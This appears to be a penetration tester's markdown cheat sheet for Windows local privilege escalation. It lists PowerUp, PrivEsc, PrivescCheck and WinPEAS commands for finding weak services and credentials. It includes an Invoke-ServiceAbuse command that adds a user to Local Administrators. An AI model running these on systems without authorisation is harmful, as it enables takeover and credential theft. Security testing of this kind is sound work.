 # Local Privilege Escalation

- [PowerUP](#powerup)
    + [Find Vulnerable Services](#find-vulnerable-services)
    + [Abuse Found Vulnerable Services](#abuse-found-vulnerable-services)
- [PrivEsc](#privesc)
    + [Find Vulnerable Services](#find-vulnerable-services-1)
- [PrivescCheck](#privesccheck)
- [WinPEAS](#winpeas)

### PowerUP
---
```powershell
C:> . .\PowerUp.ps1
```
##### Find Vulnerable Services

- Run All Checks
```powershell
C:> Invoke-AllChecks
```
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
##### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
# Make <user> member of the Admins group. Just need to relog session and that's it.
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<user>'
```

### PrivEsc
---
```powershell
C:> Invoke-PrivEsc
```
- Groups   : Groups of our interest when checking ACLs.
- Mode     : Mode to use - full or lhf (default).
- Extended : Switch enables lookups that may last for several minutes.

##### Find Vulnerable Services
- Run All Checks
```powershell
C:> Invoke-PrivEsc
```
- Full Check for Groups
```powershell
C:> Invoke-Privesc -Groups 'Users,Everyone,"Authenticated Users"' -Mode full -Extended
```
### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  
### WinPEAS
---
WinPEAS is a binary to enumerate possible paths to escalate privileges locally
```powershell
        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information`
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search files that can contains credentials
        eventsinfo           Display interesting events information
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

        Additional checks (slower):
        -lolbas              Run additional LOLBAS check
        -linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
```

